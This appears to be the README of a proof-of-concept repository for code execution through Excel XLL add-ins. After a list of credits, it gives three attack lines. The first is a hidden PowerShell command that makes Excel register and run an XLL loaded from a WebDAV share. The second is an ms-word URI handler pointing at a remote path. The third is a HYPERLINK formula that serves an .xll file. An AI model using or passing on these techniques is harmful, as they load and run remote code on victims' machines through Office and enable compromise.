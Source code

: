 # xllpoc
Code Exec via Excel

#Credit <br>
EdParcell: https://github.com/edparcell/HelloWorldXll <br>
MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx <br> 
Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52 <br>
Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ <br>
Many others

<br><br>
#interesting
ms-word:nft|u|http://PATH  <br>
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"  <br>
=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK"  <br>
